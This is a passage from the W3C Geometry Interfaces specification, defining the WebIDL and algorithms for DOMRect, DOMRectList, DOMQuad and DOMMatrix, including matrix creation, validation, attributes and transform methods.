Objects implementing the `DOMRectReadOnly` interface represent a **rectangle**.

Rectangles have the following properties:

****origin****

: When the rectangle has a non-negative width dimension, the rectangle’s horizontal origin is the left edge; otherwise, it is the right edge. Similarly, when the rectangle has a non-negative height dimension, the rectangle’s vertical origin is the top edge; otherwise, it is the bottom edge.

****x coordinate****

: The horizontal distance between the viewport’s left edge and the rectangle’s origin.

****y coordinate****

: The vertical distance between the viewport’s top edge and the rectangle’s origin.

****width dimension****

: The width of the rectangle. Can be negative.

****height dimension****

: The height of the rectangle. Can be negative.

```webidl
[Exposed=(Window,Worker),
 Serializable]
interface DOMRectReadOnly {
    constructor(optional unrestricted double x = 0, optional unrestricted double y = 0,
            optional unrestricted double width = 0, optional unrestricted double height = 0);

    [NewObject] static DOMRectReadOnly fromRect(optional DOMRectInit other = {});

    readonly attribute unrestricted double x;
    readonly attribute unrestricted double y;
    readonly attribute unrestricted double width;
    readonly attribute unrestricted double height;
    readonly attribute unrestricted double top;
    readonly attribute unrestricted double right;
    readonly attribute unrestricted double bottom;
    readonly attribute unrestricted double left;

    [Default] object toJSON();
};

[Exposed=(Window,Worker),
 Serializable,
 LegacyWindowAlias=SVGRect]
interface DOMRect : DOMRectReadOnly {
    constructor(optional unrestricted double x = 0, optional unrestricted double y = 0,
            optional unrestricted double width = 0, optional unrestricted double height = 0);

    [NewObject] static DOMRect fromRect(optional DOMRectInit other = {});

    inherit attribute unrestricted double x;
    inherit attribute unrestricted double y;
    inherit attribute unrestricted double width;
    inherit attribute unrestricted double height;
};

dictionary DOMRectInit {
    unrestricted double x = 0;
    unrestricted double y = 0;
    unrestricted double width = 0;
    unrestricted double height = 0;
};
```

The following algorithms assume that `DOMRectReadOnly` objects have the internal member variables x coordinate, y coordinate, width dimension and height dimension. `DOMRectReadOnly` as well as the inheriting interface `DOMRect` must be able to access and set the value of these variables.

An interface returning an `DOMRectReadOnly` object by an attribute or function may be able to modify internal member variable values. Such an interface must specify this ability explicitly in prose.

Internal member variables must not be exposed in any way.

The **`DOMRectReadOnly(x, y, width, height)`** and **`DOMRect(x, y, width, height)`** constructors, when invoked, must run the following steps:

1. Let *rect* be a new `DOMRectReadOnly` or `DOMRect` object as appropriate.
2. Set *rect*’s variables x coordinate to *x*, y coordinate to *y*, width dimension to *width* and height dimension to *height*.
3. Return *rect*.

The **`fromRect(other)`** static method on `DOMRectReadOnly` must create a `DOMRectReadOnly` from the dictionary *other*.

The **`fromRect(other)`** static method on `DOMRect` must create a `DOMRect` from the dictionary *other*.

To **create a `DOMRectReadOnly` from a dictionary** *other*, or to **create a `DOMRect` from a dictionary** *other*, follow these steps:

1. Let *rect* be a new `DOMRectReadOnly` or `DOMRect` as appropriate.
2. Set *rect*’s variables x coordinate to *other*’s `x` dictionary member, y coordinate to *other*’s `y` dictionary member, width dimension to *other*’s `width` dictionary member and height dimension to *other*’s `height` dictionary member.
3. Return *rect*.

The **`x`** attribute, on getting, must return the x coordinate value. For the `DOMRect` interface, setting the `x` attribute must set the x coordinate to the new value.

The **`y`** attribute, on getting, it must return the y coordinate value. For the `DOMRect` interface, setting the `y` attribute must set the y coordinate to the new value.

The **`width`** attribute, on getting, must return the width dimension value. For the `DOMRect` interface, setting the `width` attribute must set the width dimension to the new value.

The **`height`** attribute, on getting, must return the height dimension value. For the `DOMRect` interface, setting the `height` attribute must set the height dimension value to the new value.

The **`top`** attribute, on getting, must return the NaN-safe minimum of the y coordinate and the sum of the y coordinate and the height dimension.

The **`right`** attribute, on getting, must return the NaN-safe maximum of the x coordinate and the sum of the x coordinate and the width dimension.

The **`bottom`** attribute, on getting, must return the NaN-safe maximum of the y coordinate and the sum of the y coordinate and the height dimension.

The **`left`** attribute, on getting, must return the NaN-safe minimum of the x coordinate and the sum of the x coordinate and the width dimension.

### 4. The DOMRectList interface {#geometry-1:DOMRectList}

```webidl
[Exposed=Window]
interface DOMRectList {
    readonly attribute unsigned long length;
    getter DOMRect? item(unsigned long index);
};
```

The **`length`** attribute must return the total number of `DOMRect` objects associated with the object.

The **`item(index)`** method, when invoked, must return `null` when *index* is greater than or equal to the number of `DOMRect` objects associated with the `DOMRectList`. Otherwise, the `DOMRect` object at *index* must be returned. Indices are zero-based.

**`DOMRectList` only exists for compatibility with legacy Web content. When specifying a new API, `DOMRectList` must not be used. Use `sequence<DOMRect>` instead. [WEBIDL]**

### 5. The DOMQuad interface {#geometry-1:DOMQuad}

Objects implementing the `DOMQuad` interface represents a **quadrilateral**.

```webidl
[Exposed=(Window,Worker),
 Serializable]
interface DOMQuad {
    constructor(optional DOMPointInit p1 = {}, optional DOMPointInit p2 = {},
            optional DOMPointInit p3 = {}, optional DOMPointInit p4 = {});

    [NewObject] static DOMQuad fromRect(optional DOMRectInit other = {});
    [NewObject] static DOMQuad fromQuad(optional DOMQuadInit other = {});

    [SameObject] readonly attribute DOMPoint p1;
    [SameObject] readonly attribute DOMPoint p2;
    [SameObject] readonly attribute DOMPoint p3;
    [SameObject] readonly attribute DOMPoint p4;
    [NewObject] DOMRect getBounds();

    [Default] object toJSON();
};

dictionary DOMQuadInit {
  DOMPointInit p1;
  DOMPointInit p2;
  DOMPointInit p3;
  DOMPointInit p4;
};
```

The following algorithms assume that `DOMQuad` objects have the internal member variables **point 1**, **point 2**, **point 3**, and **point 4**, which are `DOMPoint` objects. `DOMQuad` must be able to access and set the value of these variables. The author can modify these `DOMPoint` objects, which directly affects the quadrilateral.

An interface returning a `DOMQuad` object by an attribute or function may be able to modify internal member variable values. Such an interface must specify this ability explicitly in prose.

Internal member variables must not be exposed in any way.

The **`DOMQuad(p1, p2, p3, p4)`** constructor, when invoked, must run the following steps:

1. Let *point1* be a new `DOMPoint` object with its attributes set to the values of the namesake dictionary members in *p1*.
2. Let *point2* be a new `DOMPoint` object with its attributes set to the values of the namesake dictionary members in *p2*.
3. Let *point3* be a new `DOMPoint` object with its attributes set to the values of the namesake dictionary members in *p3*.
4. Let *point4* be a new `DOMPoint` object with its attributes set to the values of the namesake dictionary members in *p4*.
5. Return a new `DOMQuad` with point 1 set to *point1*, point 2 set to *point2*, point 3 set to *point3* and point 4 set to *point4*.

> **Note:** It is possible to pass `DOMPoint`/`DOMPointReadOnly` arguments as well. The passed arguments will be transformed to the correct object type internally following the WebIDL rules. [WEBIDL]

The **`fromRect(other)`** static method on `DOMQuad` must create a `DOMQuad` from the `DOMRectInit` dictionary *other*.

To **create a `DOMQuad` from a `DOMRectInit` dictionary** *other*, follow these steps:

1. Let *x*, *y*, *width* and *height* be the value of *other*’s `x`, `y`, `width` and `height` dictionary members, respectively.
2. Let *point1* be a new `DOMPoint` object with x coordinate set to *x*, y coordinate set to *y*, z coordinate set to `0` and w perspective set to `1`.
3. Let *point2* be a new `DOMPoint` object with x coordinate set to *x* + *width*, y coordinate set to *y*, z coordinate set to `0` and w perspective set to `1`.
4. Let *point3* be a new `DOMPoint` object with x coordinate set to *x* + *width*, y coordinate set to *y* + *height*, z coordinate set to `0` and w perspective set to `1`.
5. Let *point4* be a new `DOMPoint` object with x coordinate set to *x*, y coordinate set to *y* + *height*, z coordinate set to `0` and w perspective set to `1`.
6. Return a new `DOMQuad` with point 1 set to *point1*, point 2 set to *point2*, point 3 set to *point3* and point 4 set to *point4*.

The **`fromQuad(other)`** static method on `DOMQuad` must create a `DOMQuad` from the `DOMQuadInit` dictionary *other*.

To **create a `DOMQuad` from a `DOMQuadInit` dictionary** *other*, follow these steps:

1. Let *point1* be the result of invoking create a `DOMPoint` from the dictionary `p1` dictionary member of *other*, if it exists.
2. Let *point2* be the result of invoking create a `DOMPoint` from the dictionary `p2` dictionary member of *other*, if it exists.
3. Let *point3* be the result of invoking create a `DOMPoint` from the dictionary `p3` dictionary member of *other*, if it exists.
4. Let *point4* be the result of invoking create a `DOMPoint` from the dictionary `p4` dictionary member of *other*, if it exists.
5. Return a new `DOMQuad` with point 1 set to *point1*, point 2 set to *point2*, point 3 set to *point3* and point 4 set to *point4*.

The **`p1`** attribute must return point 1.

The **`p2`** attribute must return point 2.

The **`p3`** attribute must return point 3.

The **`p4`** attribute must return point 4.

The **`getBounds()`** method, when invoked, must run the following algorithm:

1. Let *bounds* be a `DOMRect` object.
2. Let *left* be the NaN-safe minimum of point 1’s x coordinate, point 2’s x coordinate, point 3’s x coordinate and point 4’s x coordinate.
3. Let *top* be the NaN-safe minimum of point 1’s y coordinate, point 2’s y coordinate, point 3’s y coordinate and point 4’s y coordinate.
4. Let *right* be the NaN-safe maximum of point 1’s x coordinate, point 2’s x coordinate, point 3’s x coordinate and point 4’s x coordinate.
5. Let *bottom* be the NaN-safe maximum of point 1’s y coordinate, point 2’s y coordinate, point 3’s y coordinate and point 4’s y coordinate.
6. Set x coordinate of *bounds* to *left*, y coordinate of *bounds* to *top*, width dimension of *bounds* to *right* - *left* and height dimension of *bounds* to *bottom* - *top*.
7. Return *bounds*.

> **Example:** In this example the `DOMQuad` constructor is called with arguments of type `DOMPoint` and `DOMPointInit`. Both arguments are accepted and can be used.
>
> ```
> var point = new DOMPoint(2, 0);
> var quad1 = new DOMQuad(point, {x: 12, y: 0}, {x: 12, y: 10}, {x: 2, y: 10});
> ```
>
> The attribute values of the resulting `DOMQuad` *quad1* above are also equivalent to the attribute values of the following `DOMQuad` *quad2*:
>
> ```
> var rect = new DOMRect(2, 0, 10, 10);
> var quad2 = DOMQuad.fromRect(rect);
> ```

> **Example:** This is an example of an irregular quadrilateral:
>
> ```
> new DOMQuad({x: 40, y: 25}, {x: 180, y: 8}, {x: 210, y: 150}, {x: 10, y: 180});
> ```
>
> An irregular quadrilateral represented by a `DOMQuad`. The four red colored circles represent the `DOMPoint` attributes `p1` to `p4`. The dashed rectangle represents the bounding rectangle returned by the `getBounds()` method of the `DOMQuad`.

### 6. The DOMMatrix interfaces {#geometry-1:DOMMatrix}

The `DOMMatrix` and `DOMMatrixReadOnly` interfaces each represent a mathematical **matrix** with the purpose of describing transformations in a graphical context. The following sections describe the details of the interface.

m11m21m31m41m12m22m32m42m13m23m33m43m14m24m34m44

A **4x4 abstract matrix** with items *m11* to *m44*.

In the following sections, terms have the following meaning:

****post-multiply****

: Term *A* post-multiplied by term *B* is equal to *A* · *B*.

****pre-multiply****

: Term *A* pre-multiplied by term *B* is equal to *B* · *A*.

****multiply****

: Multiply term *A* by term *B* is equal to *A* · *B*.

```webidl
[Exposed=(Window,Worker),
 Serializable]
interface DOMMatrixReadOnly {
    constructor(optional (DOMString or sequence<unrestricted double>) init);

    [NewObject] static DOMMatrixReadOnly fromMatrix(optional DOMMatrixInit other = {});
    [NewObject] static DOMMatrixReadOnly fromFloat32Array(Float32Array array32);
    [NewObject] static DOMMatrixReadOnly fromFloat64Array(Float64Array array64);

    // These attributes are simple aliases for certain elements of the 4x4 matrix
    readonly attribute unrestricted double a;
    readonly attribute unrestricted double b;
    readonly attribute unrestricted double c;
    readonly attribute unrestricted double d;
    readonly attribute unrestricted double e;
    readonly attribute unrestricted double f;

    readonly attribute unrestricted double m11;
    readonly attribute unrestricted double m12;
    readonly attribute unrestricted double m13;
    readonly attribute unrestricted double m14;
    readonly attribute unrestricted double m21;
    readonly attribute unrestricted double m22;
    readonly attribute unrestricted double m23;
    readonly attribute unrestricted double m24;
    readonly attribute unrestricted double m31;
    readonly attribute unrestricted double m32;
    readonly attribute unrestricted double m33;
    readonly attribute unrestricted double m34;
    readonly attribute unrestricted double m41;
    readonly attribute unrestricted double m42;
    readonly attribute unrestricted double m43;
    readonly attribute unrestricted double m44;

    readonly attribute boolean is2D;
    readonly attribute boolean isIdentity;

    // Immutable transform methods
    [NewObject] DOMMatrix translate(optional unrestricted double tx = 0,
                                    optional unrestricted double ty = 0,
                                    optional unrestricted double tz = 0);
    [NewObject] DOMMatrix scale(optional unrestricted double scaleX = 1,
                                optional unrestricted double scaleY,
                                optional unrestricted double scaleZ = 1,
                                optional unrestricted double originX = 0,
                                optional unrestricted double originY = 0,
                                optional unrestricted double originZ = 0);
    [NewObject] DOMMatrix scaleNonUniform(optional unrestricted double scaleX = 1,
                                          optional unrestricted double scaleY = 1);
    [NewObject] DOMMatrix scale3d(optional unrestricted double scale = 1,
                                  optional unrestricted double originX = 0,
                                  optional unrestricted double originY = 0,
                                  optional unrestricted double originZ = 0);
    [NewObject] DOMMatrix rotate(optional unrestricted double rotX = 0,
                                 optional unrestricted double rotY,
                                 optional unrestricted double rotZ);
    [NewObject] DOMMatrix rotateFromVector(optional unrestricted double x = 0,
                                           optional unrestricted double y = 0);
    [NewObject] DOMMatrix rotateAxisAngle(optional unrestricted double x = 0,
                                          optional unrestricted double y = 0,
                                          optional unrestricted double z = 0,
                                          optional unrestricted double angle = 0);
    [NewObject] DOMMatrix skewX(optional unrestricted double sx = 0);
    [NewObject] DOMMatrix skewY(optional unrestricted double sy = 0);
    [NewObject] DOMMatrix multiply(optional DOMMatrixInit other = {});
    [NewObject] DOMMatrix flipX();
    [NewObject] DOMMatrix flipY();
    [NewObject] DOMMatrix inverse();

    [NewObject] DOMPoint transformPoint(optional DOMPointInit point = {});
    [NewObject] Float32Array toFloat32Array();
    [NewObject] Float64Array toFloat64Array();

    [Exposed=Window] stringifier;
    [Default] object toJSON();
};

[Exposed=(Window,Worker),
 Serializable,
 LegacyWindowAlias=(SVGMatrix,WebKitCSSMatrix)]
interface DOMMatrix : DOMMatrixReadOnly {
    constructor(optional (DOMString or sequence<unrestricted double>) init);

    [NewObject] static DOMMatrix fromMatrix(optional DOMMatrixInit other = {});
    [NewObject] static DOMMatrix fromFloat32Array(Float32Array array32);
    [NewObject] static DOMMatrix fromFloat64Array(Float64Array array64);

    // These attributes are simple aliases for certain elements of the 4x4 matrix
    inherit attribute unrestricted double a;
    inherit attribute unrestricted double b;
    inherit attribute unrestricted double c;
    inherit attribute unrestricted double d;
    inherit attribute unrestricted double e;
    inherit attribute unrestricted double f;

    inherit attribute unrestricted double m11;
    inherit attribute unrestricted double m12;
    inherit attribute unrestricted double m13;
    inherit attribute unrestricted double m14;
    inherit attribute unrestricted double m21;
    inherit attribute unrestricted double m22;
    inherit attribute unrestricted double m23;
    inherit attribute unrestricted double m24;
    inherit attribute unrestricted double m31;
    inherit attribute unrestricted double m32;
    inherit attribute unrestricted double m33;
    inherit attribute unrestricted double m34;
    inherit attribute unrestricted double m41;
    inherit attribute unrestricted double m42;
    inherit attribute unrestricted double m43;
    inherit attribute unrestricted double m44;

    // Mutable transform methods
    DOMMatrix multiplySelf(optional DOMMatrixInit other = {});
    DOMMatrix preMultiplySelf(optional DOMMatrixInit other = {});
    DOMMatrix translateSelf(optional unrestricted double tx = 0,
                            optional unrestricted double ty = 0,
                            optional unrestricted double tz = 0);
    DOMMatrix scaleSelf(optional unrestricted double scaleX = 1,
                        optional unrestricted double scaleY,
                        optional unrestricted double scaleZ = 1,
                        optional unrestricted double originX = 0,
                        optional unrestricted double originY = 0,
                        optional unrestricted double originZ = 0);
    DOMMatrix scale3dSelf(optional unrestricted double scale = 1,
                          optional unrestricted double originX = 0,
                          optional unrestricted double originY = 0,
                          optional unrestricted double originZ = 0);
    DOMMatrix rotateSelf(optional unrestricted double rotX = 0,
                         optional unrestricted double rotY,
                         optional unrestricted double rotZ);
    DOMMatrix rotateFromVectorSelf(optional unrestricted double x = 0,
                                   optional unrestricted double y = 0);
    DOMMatrix rotateAxisAngleSelf(optional unrestricted double x = 0,
                                  optional unrestricted double y = 0,
                                  optional unrestricted double z = 0,
                                  optional unrestricted double angle = 0);
    DOMMatrix skewXSelf(optional unrestricted double sx = 0);
    DOMMatrix skewYSelf(optional unrestricted double sy = 0);
    DOMMatrix invertSelf();

    [Exposed=Window] DOMMatrix setMatrixValue(DOMString transformList);
};

dictionary DOMMatrix2DInit {
    unrestricted double a;
    unrestricted double b;
    unrestricted double c;
    unrestricted double d;
    unrestricted double e;
    unrestricted double f;
    unrestricted double m11;
    unrestricted double m12;
    unrestricted double m21;
    unrestricted double m22;
    unrestricted double m41;
    unrestricted double m42;
};

dictionary DOMMatrixInit : DOMMatrix2DInit {
    unrestricted double m13 = 0;
    unrestricted double m14 = 0;
    unrestricted double m23 = 0;
    unrestricted double m24 = 0;
    unrestricted double m31 = 0;
    unrestricted double m32 = 0;
    unrestricted double m33 = 1;
    unrestricted double m34 = 0;
    unrestricted double m43 = 0;
    unrestricted double m44 = 1;
    boolean is2D;
};
```

The following algorithms assume that `DOMMatrixReadOnly` objects have the internal member variables **m11 element**, **m12 element**, **m13 element**, **m14 element**, **m21 element**, **m22 element**, **m23 element**, **m24 element**, **m31 element**, **m32 element**, **m33 element**, **m34 element**, **m41 element**, **m42 element**, **m43 element**, **m44 element** and is 2D. `DOMMatrixReadOnly` as well as the inheriting interface `DOMMatrix` must be able to access and set the value of these variables.

An interface returning an `DOMMatrixReadOnly` object by an attribute or function may be able to modify internal member variable values. Such an interface must specify this ability explicitly in prose.

Internal member variables must not be exposed in any way.

The `DOMMatrix` and `DOMMatrixReadOnly` interfaces replace the `SVGMatrix` interface from SVG. [SVG11]

#### 6.1. DOMMatrix2DInit and DOMMatrixInit dictionaries {#geometry-1:dommatrixinit-dictionary}

To **validate and fixup (2D)** a `DOMMatrix2DInit` or `DOMMatrixInit` dictionary *dict*, run the following steps:

1. If if at least one of the following conditions are true for *dict*, then throw a `TypeError` exception and abort these steps.

  - `a` and `m11` are both present and SameValueZero(`a`, `m11`) is `false`.
  - `b` and `m12` are both present and SameValueZero(`b`, `m12`) is `false`.
  - `c` and `m21` are both present and SameValueZero(`c`, `m21`) is `false`.
  - `d` and `m22` are both present and SameValueZero(`d`, `m22`) is `false`.
  - `e` and `m41` are both present and SameValueZero(`e`, `m41`) is `false`.
  - `f` and `m42` are both present and SameValueZero(`f`, `m42`) is `false`.
2. If `m11` is not present then set it to the value of member `a`, or value `1` if `a` is also not present.
3. If `m12` is not present then set it to the value of member `b`, or value `0` if `b` is also not present.
4. If `m21` is not present then set it to the value of member `c`, or value `0` if `c` is also not present.
5. If `m22` is not present then set it to the value of member `d`, or value `1` if `d` is also not present.
6. If `m41` is not present then set it to the value of member `e`, or value `0` if `e` is also not present.
7. If `m42` is not present then set it to the value of member `f`, or value `0` if `f` is also not present.

> **Note:** The SameValueZero comparison algorithm returns `true` for two `NaN` values, and also for `0` and `-0`. [ECMA-262]

To **validate and fixup** a `DOMMatrixInit` dictionary *dict*, run the following steps:

1. Validate and fixup (2D) *dict*.
2. If `is2D` is `true` and: at least one of `m13`, `m14`, `m23`, `m24`, `m31`, `m32`, `m34`, `m43` are present with a value other than `0` or `-0`, or at least one of `m33`, `m44` are present with a value other than `1`, then throw a `TypeError` exception and abort these steps.
3. If `is2D` is not present and at least one of `m13`, `m14`, `m23`, `m24`, `m31`, `m32`, `m34`, `m43` are present with a value other than `0` or `-0`, or at least one of `m33`, `m44` are present with a value other than `1`, set `is2D` to `false`.
4. If `is2D` is still not present, set it to `true`.

#### 6.2. Parsing a string into an abstract matrix {#geometry-1:dommatrix-parse}

To **parse a string into an abstract matrix**, given a string *transformList*, means to run the following steps. It will either return a 4x4 abstract matrix and a boolean *2dTransform*, or failure.

1. If *transformList* is the empty string, set it to the string "`matrix(1, 0, 0, 1, 0, 0)`".
2. Parse *transformList* into *parsedValue* given the grammar for the CSS `transform` property. The result will be a `<transform-list>`, the keyword `none`, or failure. If *parsedValue* is failure, or any `<transform-function>` has `<length>` values without absolute length units, or any keyword other than `none` is used, then return failure. [CSS3-SYNTAX] [CSS3-TRANSFORMS]
3. If *parsedValue* is `none`, set *parsedValue* to a `<transform-list>` containing a single identity matrix.
4. Let *2dTransform* track the 2D/3D dimension status of *parsedValue*.

   **If *parsedValue* consists of any [three-dimensional transform functions](#css-transforms-1:transform-primitives)**

   : Set *2dTransform* to `false`.

   **Otherwise**

   : Set *2dTransform* to `true`.
5. Transform all `<transform-function>`s to 4x4 abstract matrices by following the “[Mathematical Description of Transform Functions](#css-transforms-1:mathematical-description)”. [CSS3-TRANSFORMS]
6. Let *matrix* be a 4x4 abstract matrix as shown in the initial figure of this section. Post-multiply all matrices from left to right and set *matrix* to this product.
7. Return *matrix* and *2dTransform*.

#### 6.3. Creating DOMMatrixReadOnly and DOMMatrix objects {#geometry-1:dommatrix-create}

To **create a 2d matrix** of type *type* being either `DOMMatrixReadOnly` or `DOMMatrix`, with a sequence *init* of 6 elements, follow these steps:

1. Let *matrix* be a new instance of *type*.
2. Set m11 element, m12 element, m21 element, m22 element, m41 element and m42 element to the values of *init* in order starting with the first value.
3. Set m13 element, m14 element, m23 element, m24 element, m31 element, m32 element, m34 element, and m43 element to `0`.
4. Set m33 element and m44 element to `1`.
5. Set is 2D to `true`.
6. Return *matrix*

To **create a 3d matrix** with *type* being either `DOMMatrixReadOnly` or `DOMMatrix`, with a sequence *init* of 16 elements, follow these steps:

1. Let *matrix* be a new instance of *type*.
2. Set m11 element to m44 element to the values of *init* in column-major order.
3. Set is 2D to `false`.
4. Return *matrix*

The **`DOMMatrixReadOnly(init)`** and the **`DOMMatrix(init)`** constructors must follow these steps:

**If *init* is omitted**

: Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with the sequence [`1`, `0`, `0`, `1`, `0`, `0`].

**If *init* is a `DOMString`**

: 1. If current global object is not a `Window` object, then throw a `TypeError` exception.
  2. Parse *init* into an abstract matrix, and let *matrix* and *2dTransform* be the result. If the result is failure, then throw a "`SyntaxError`" `DOMException`.
  3. **If *2dTransform* is `true`**

     : Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers, the values being the elements *m11*, *m12*, *m21*, *m22*, *m41* and *m42* of *matrix*.

     **Otherwise**

     : Return the result of invoking create a 3d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers, the values being the 16 elements of *matrix*.

**If *init* is a sequence with 6 elements**

: Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with the sequence *init*.

**If *init* is a sequence with 16 elements**

: Return the result of invoking create a 3d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with the sequence *init*.

**Otherwise**

: Throw a `TypeError` exception.

The **`fromMatrix(other)`** static method on `DOMMatrixReadOnly` must create a `DOMMatrixReadOnly` from the dictionary *other*.

The **`fromMatrix(other)`** static method on `DOMMatrix` must create a `DOMMatrix` from the dictionary *other*.

To **create a `DOMMatrixReadOnly` from a 2D dictionary** *other* or to **create a `DOMMatrix` from a 2D dictionary** *other*, follow these steps:

1. Validate and fixup (2D) *other*.
2. Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers, the values being the 6 elements `m11`, `m12`, `m21`, `m22`, `m41` and `m42` of *other* in the given order.

To **create a `DOMMatrixReadOnly` from a dictionary** *other* or to **create a `DOMMatrix` from a dictionary** *other*, follow these steps:

1. Validate and fixup *other*.
2. **If the `is2D` dictionary member of *other* is `true`**

   : Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers, the values being the 6 elements `m11`, `m12`, `m21`, `m22`, `m41` and `m42` of *other* in the given order.

   **Otherwise**

   : Return the result of invoking create a 3d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers, the values being the 16 elements `m11`, `m12`, `m13`, ..., `m44` of *other* in the given order.

The **`fromFloat32Array(array32)`** static method on `DOMMatrixReadOnly` and the **`fromFloat32Array(array32)`** static method on `DOMMatrix` must follow these steps:

**If *array32* has 6 elements**

: Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers taking the values from *array32* in the provided order.

**If *array32* has 16 elements**

: Return the result of invoking create a 3d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers taking the values from *array32* in the provided order.

**Otherwise**

: Throw a `TypeError` exception.

The **`fromFloat64Array(array64)`** static method on `DOMMatrixReadOnly` and the **`fromFloat64Array(array64)`** static method on `DOMMatrix` must follow these steps:

**If *array64* has 6 elements**

: Return the result of invoking create a 2d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers taking the values from *array64* in the provided order.

**If *array32* has 16 elements**

: Return the result of invoking create a 3d matrix of type `DOMMatrixReadOnly` or `DOMMatrix` as appropriate, with a sequence of numbers taking the values from *array64* in the provided order.

**Otherwise**

: Throw a `TypeError` exception.

#### 6.4. DOMMatrix attributes {#geometry-1:dommatrix-attributes}

The following attributes `m11` to `m44` correspond to the 16 items of the matrix interfaces.

The **`m11`** and **`a`** attributes, on getting, must return the m11 element value. For the `DOMMatrix` interface, setting the `m11` or the `a` attribute must set the m11 element to the new value.

The **`m12`** and **`b`** attributes, on getting, must return the m12 element value. For the `DOMMatrix` interface, setting the `m12` or the `b` attribute must set the m12 element to the new value.

The **`m13`** attribute, on getting, must return the m13 element value. For the `DOMMatrix` interface, setting the `m13` attribute must set the m13 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m14`** attribute, on getting, must return the m14 element value. For the `DOMMatrix` interface, setting the `m14` attribute must set the m14 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m21`** and **`c`** attributes, on getting, must return the m21 element value. For the `DOMMatrix` interface, setting the `m21` or the `c` attribute must set the m21 element to the new value.

The **`m22`** and **`d`** attributes, on getting, must return the m22 element value. For the `DOMMatrix` interface, setting the `m22` or the `d` attribute must set the m22 element to the new value.

The **`m23`** attribute, on getting, must return the m23 element value. For the `DOMMatrix` interface, setting the `m23` attribute must set the m23 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m24`** attribute, on getting, must return the m24 element value. For the `DOMMatrix` interface, setting the `m24` attribute must set the m24 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m31`** attribute, on getting, must return the m31 element value. For the `DOMMatrix` interface, setting the `m31` attribute must set the m31 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m32`** attribute, on getting, must return the m32 element value. For the `DOMMatrix` interface, setting the `m32` attribute must set the m32 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m33`** attribute, on getting, must return the m33 element value. For the `DOMMatrix` interface, setting the `m33` attribute must set the m33 element to the new value and, if the new value is not `1`, set is 2D to `false`.

The **`m34`** attribute, on getting, must return the m34 element value. For the `DOMMatrix` interface, setting the `m34` attribute must set the m34 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m41`** and **`e`** attributes, on getting, must return the m41 element value. For the `DOMMatrix` interface, setting the `m41` or the `e` attribute must set the m41 element to the new value.

The **`m42`** and **`f`** attributes, on getting, must return the m42 element value. For the `DOMMatrix` interface, setting the `m42` or the `f` attribute must set the m42 element to the new value.

The **`m43`** attribute, on getting, must return the m43 element value. For the `DOMMatrix` interface, setting the `m43` attribute must set the m43 element to the new value and, if the new value is not `0` or `-0`, set is 2D to `false`.

The **`m44`** attribute, on getting, must return the m44 element value. For the `DOMMatrix` interface, setting the `m44` attribute must set the m44 element to the new value and, if the new value is not `1`, set is 2D to `false`.

> **Note:** The following attributes `a` to `f` correspond to the 2D components of the matrix interfaces.
>
> The `a` attribute is an alias to the `m11` attribute.
>
> The `b` attribute is an alias to the `m12` attribute.
>
> The `c` attribute is an alias to the `m21` attribute.
>
> The `d` attribute is an alias to the `m22` attribute.
>
> The `e` attribute is an alias to the `m41` attribute.
>
> The `f` attribute is an alias to the `m42` attribute.

The following attributes provide status information about `DOMMatrixReadOnly`.

The **`is2D`** attribute must return the value of is 2D.

The **`isIdentity`** attribute must return `true` if m12 element, m13 element, m14 element, m21 element, m23 element, m24 element, m31 element, m32 element, m34 element, m41 element, m42 element, m43 element are `0` or `-0` and m11 element, m22 element, m33 element, m44 element are `1`. Otherwise it must return `false`.

Every `DOMMatrixReadOnly` object must be flagged with a boolean **is 2D**. This flag indicates that:

1. The current matrix was initialized as a 2D matrix. See individual [creators](#geometry-1:dommatrix-create) for more details.
2. Only 2D transformation operations were applied. Each [mutable](#geometry-1:mutable-transformation-methods) or [immutable transformation method](#geometry-1:immutable-transformation-methods) defines if is 2D must be set to `false`.

> **Note:** Is 2D can never be set to `true` when it was set to `false` before on a `DOMMatrix` object with the exception of calling the `setMatrixValue()` method.

#### 6.5. Immutable transformation methods {#geometry-1:immutable-transformation-methods}

The following methods do not modify the current matrix and return a new `DOMMatrix` object.

****`translate(tx, ty, tz)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `translateSelf()` transformation on *result* with the arguments *tx*, *ty*, *tz*.
  3. Return *result*.

  The current matrix is not modified.

****`scale(scaleX, scaleY, scaleZ, originX, originY, originZ)`****

: 1. If *scaleY* is missing, set *scaleY* to the value of *scaleX*.
  2. Let *result* be the resulting matrix initialized to the values of the current matrix.
  3. Perform a `scaleSelf()` transformation on *result* with the arguments *scaleX*, *scaleY*, *scaleZ*, *originX*, *originY*, *originZ*.
  4. Return *result*.

  The current matrix is not modified.

****`scaleNonUniform(scaleX, scaleY)`****

: > **Note:** Supported for legacy reasons to be compatible with `SVGMatrix` as defined in SVG 1.1 [SVG11]. Authors are encouraged to use `scale()` instead.

  1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `scaleSelf()` transformation on *result* with the arguments *scaleX*, *scaleY*, *1*, *0*, *0*, *0*.
  3. Return *result*.

  The current matrix is not modified.

****`scale3d(scale, originX, originY, originZ)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `scale3dSelf()` transformation on *result* with the arguments *scale*, *originX*, *originY*, *originZ*.
